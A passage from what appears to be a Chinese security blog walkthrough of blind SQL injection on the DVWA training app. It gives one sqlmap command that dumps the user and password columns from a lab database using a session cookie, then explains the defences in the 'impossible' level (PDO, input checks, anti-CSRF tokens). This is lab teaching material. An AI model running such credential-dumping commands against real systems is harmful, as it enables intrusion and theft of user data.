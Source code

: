 

**导出指定数据表中的列字段进行保存**

```
sqlmap -u "192.168.224.135/dvwa/vulnerabilities/sqli_blind/"  --data="id=1&Submit=Submit" --second-url="192.168.224.135/dvwa/vulnerabilities/sqli_blind/"  --cookie="security=high;PHPSESSID=dfqbsm7j4sopvt6p28jikahfj5" --batch -D dvwa -T users -C “user,password” –dump
```

![31](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/DVWA-%E7%9B%B2%E6%B3%A8/20220525124744.png)







#### lmpossible

impossible.php代码采用了PDO技术，划清了代码与数据的界限，有效防御SQL注入

只有当返回的查询结果数量为一个记录时，才会成功输出，这样就有效预防了暴库

利用is_numeric($id)函数来判断输入的id是否是数字or数字字符串，满足条件才知晓query查询语句

Anti-CSRF token机制的加入了进一步提高了安全性，session_token是随机生成的动态值，每次向服务器请求，客户端都会携带最新从服务端已下发的session_token值向服务器请求作匹配验证，相互匹配才会验证通过



<br>

部分参考来自：[DVWA--SQL Injection(Blind)盲注--SQLMap测试过程解析](https://www.jianshu.com/p/ec2ca79e74b2)
